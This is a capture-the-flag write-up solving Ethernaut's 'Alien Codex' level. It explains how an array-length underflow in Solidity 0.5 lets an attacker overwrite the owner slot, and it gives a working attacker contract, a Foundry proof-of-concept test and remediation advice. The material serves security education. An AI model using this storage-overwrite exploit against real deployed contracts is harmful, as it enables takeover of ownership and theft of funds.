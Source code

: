 # Level 19 - Alien Codex

## Objectives

- Claim ownership of `AlienCodex` contract.

## Contract Overview

The `AlienCodex` contract provides a simple and secure way to store and manage a list of bytes32 data on the Ethereum blockchain, with the added security of the `Ownable` contract and the `contacted` modifier ensuring that only authorized parties can interact with the contract.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/AlienCodex_slither.png)

## Finding the weak spots

The `AlienCodex` contract uses `pragma solidity ^0.5.0;` that is prone to overflow/underflow. That is why when we call `retract()` function it will delete the last element in array but our array `codex` in the begging is empty so it has 0 elements. This will result in do minus 0 so that will be underflow and when decrease 0 by 1 we get -1 so this will underflow and be equal to `2**256 -1`. We will have have `codex` array length of `2**256 -1`. In other words by calling `retract()` function we will have access to all of the state variables inside contract.

## Storage slots

We can see in the `AlienCodex` contract that there's no `owner` variable. This is because it is coming from the inherited `Ownable` contract. If we look into the `Ownable.sol`, we can see that the variable `address private _owner;` is defined in the slot 0 of the contract.

```solidity
contract Ownable {
    address private _owner;
```

In the case of a dynamic array, the reserved slot `p` contains the length of the array as a `uint256`, and the array data itself is located sequentially at the address `keccak256(p)`.
[Source](https://docs.soliditylang.org/en/v0.8.13/internals/layout_in_storage.html#mappings-and-dynamic-arrays)

The storage then looks like this:

```solidity
    address private _owner; // slot 0
    bool public contact; // slot 0
    uint256 codex.length // slot 1
    // ..
    codex[0] // slot keccak(1)
    codex[1] // slot keccak(1) + 1
    codex[2] // slot keccak(1) + 2
    codex[3] // slot keccak(1) + 3
    // ..
    codex[2**256 - 1 - unit(keccack256(1)] // slot 2**256 - 1
    codex[2**256 - 1 - unit(keccack256(1) + 1] // slot 0
```

To access the array at slot 0 and update the value of the `_owner` we have to calculate index i. It can be calculated like:
`uint index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;`

## Potential attack scenario (hypothesis)

Attacker creates malicious contract with `attack()` function that calls `make_contact()` function than `retract()` function and finally `revise()` function.

## Plan of the attack

1. Attacker creates malicious contract.
2. Attacker calls `make_contact()` function so that the `contact` is set to true. This will allow attacker to go through the `contacted()` modifier.
3. Attacker calls `retract()` function. This will decrease the `codex.length` by 1. He gets an underflow. This will change the `codex.length` to `2**256 -1` which is also the total storage capacity of the contract.
4. Attacker calls `revise()` function to access the array at slot 0 and update the value of the `_owner` with his own address.
5. Attacker claims ownership of `AlienCodex` contract.

## Malicious contract (AlienCodexAttack.sol)

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import "./AlienCodex.sol";

// 1. Attacker creates malicious contract.
contract AlienCodexAttack {
    AlienCodex alienCodexContract;

    constructor(address _alienCodexContract) public {
        alienCodexContract = AlienCodex(_alienCodexContract);
    }

    function attack() external {
        uint index = ((2 ** 256) - 1) - uint(keccak256(abi.encode(1))) + 1;

        // 2. Attacker calls `make_contact()` function so that the `contact` is set to true. This will allow attacker to go through the `contacted()` modifier.
        alienCodexContract.make_contact();

        // 3. Attacker calls `retract()` function. This will decrease the `codex.length` by 1. He gets an underflow. This will change the `codex.length` to `2**256 -1` which is also the total storage capacity of the contract.
        alienCodexContract.retract();

        // 4. Attacker calls `revise()` function to access the array at slot 0 and update the value of the `_owner` with his own address.
        // 5. Attacker claims ownership of `AlienCodex` contract.
        alienCodexContract.revise(index, bytes32(uint256(uint160(tx.origin))));
    }
}
```

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/19-AlienCodex.t.sol))

```solidity
          emit log_named_address(
            "The original owner of the contract: ",
            alienCodexContract.owner()
        );

        emit log_named_address("Attacker's address: ", address(attacker));

        emit log_string("Starting the exploit...");
        AlienCodexAttack alienCodexAttack = new AlienCodexAttack(
            address(alienCodexContract)
        );
        alienCodexAttack.attack();

        // Test assertion
        assertEq(alienCodexContract.owner(), attacker);
```

## Recommendations

- Use pragma solidity bigger than 0.8.0 because Safemath is by default from 0.8.0
- If you use pragma solidity lower than 0.8.0 you should use Safemath

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
